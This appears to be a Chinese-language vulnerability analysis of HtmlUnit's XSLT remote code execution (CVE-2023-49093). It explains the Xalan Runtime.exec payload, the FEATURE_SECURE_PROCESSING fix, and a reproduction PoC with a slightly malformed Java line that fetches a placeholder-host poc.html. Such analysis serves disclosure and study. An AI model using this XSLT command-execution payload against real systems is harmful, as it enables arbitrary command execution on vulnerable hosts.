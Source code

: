 ##### Xalan

-   Xalan 是一个开源的XML处理器，主要用于XSLT转换以及XPath查询。它最初是由Apache XML项目开发的一部分，其中包括了 Xalan-Java 和 Xalan-C++ 两个主要版本。Xalan-Java 是用Java语言编写的XSLT处理器，能够将XML文档转换为其他格式。
    
-   声明了XSLT命名空间为`xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"`，你就可以在 XML 文档中使用 "rt" 前缀来引用这个命名空间中定义的元素和属性。
    
-   下面Java 调用扩展函数，有关 Java 扩展的三种不同格式的命名空间声明。文中的poc 是包格式命名空间
    
    -   **创建对象的实例**：XSLT中并没有默认对象的概念，命名空间声明不能唯一地标识一个类，所以要创建实例。`<xsl:variable name="rtobject" select="rt:getRuntime()"/>`：返回的是当前运行时环境的对象实例。
        
    -   **要在指定实例上调用实例方法**：
        
        -   `<xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>`，通过调用 `rt:exec` 函数，XSLT尝试执行一个外部命令，执行结果将被存储在名为 "process" 的变量中。
            -   `<xsl:variable name="processString" select="ob:toString($process)"/>`XSLT 将结果转换成字符串。

### 修复方案

该漏洞的根本原因在于 HTMLUnit 没有对 XSL 转换进行充分的限制，从而导致了安全问题。具体来说，它没有对 XSLT 的外部连接进行适当的限制。由于XSL文件中引用了 Xalan 库，并利用库中函数导致了远程命令执行的漏洞。

针对此问题，作者的修复操作是在 xml/XSLTProcessor.java 文件中新增了一行代码：`transformerFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

其中 `FEATURE_SECURE_PROCESSING` 是一个安全属性。设置为 true 后，指示实现在处理 XML 时采取安全措施，包括对外部连接的限制。这样就可以避免因为使用外部引用处理 XML/XSD/XSL 而出现问题。

## CVE-2023-49093

### 影响范围

HtmlUnit 3.8.0 之前版本

### 漏洞复现

Pom.xml

```plain
<dependency>
  <groupId>org.htmlunit</groupId>
  <artifactId>htmlunit</artifactId>
  <version>3.8.0</version>
</dependency>
```

Poc.java（==注意这里的浏览器版本是BrowserVersion.INTERNET\_EXPLORER==）

```plain
package org.example;
import com.gargoylesoftware.htmlunit.BrowserVersion;
import com.gargoylesoftware.htmlunit.WebClient;
import com.gargoylesoftware.htmlunit.html.HtmlPage;
import org.junit.Test;

import java.io.IOException;

public class App {
    @Test
    public static void main(String[] args) throws IOException {
        try (final WebClient webClient = new WebClient(BrowserVersion.INTERNET_EXPLORER)) {
            // no you have a running browser and you can start doing real things
            // like going to a web page
            final HtmlPage page = "webClient.getPage("http://xxx.xxx.xxx.xxx/poc.html");
        }
    }
}
```